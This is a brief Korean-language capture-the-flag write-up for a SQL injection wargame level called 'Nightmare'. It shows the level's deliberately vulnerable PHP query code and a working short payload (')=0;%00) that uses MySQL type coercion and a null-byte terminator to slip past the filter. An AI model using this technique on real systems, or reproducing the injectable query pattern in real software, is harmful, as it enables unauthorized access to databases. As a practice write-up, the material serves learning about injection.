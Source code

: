 # Nightmare

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`pw`를 `(' ')`의 형태로 감싸주고 있어, 두개 다 이스케이프를 해야한다. 오히려 이를 이용하여 `;`를 이용해 값을 `True`로 만들어 줄 것이다.

`mysql`에서 자동 형 변환 규칙이 있는데, 그 중 하나는

> 문자열은 숫자 0과 같다. 라는 것이다.

이를 이용하여 `''=0`을 넣어주고 문장을 종결시킬 예정이다.

> ?pw='\)=0;%00

처음에 `;` 이용법을 잘 몰라서 헤맸지만, `;`는 `%00`과 같이다녀서 `;%00`으로 쓰니까 잘 작동하였다.

Clear!

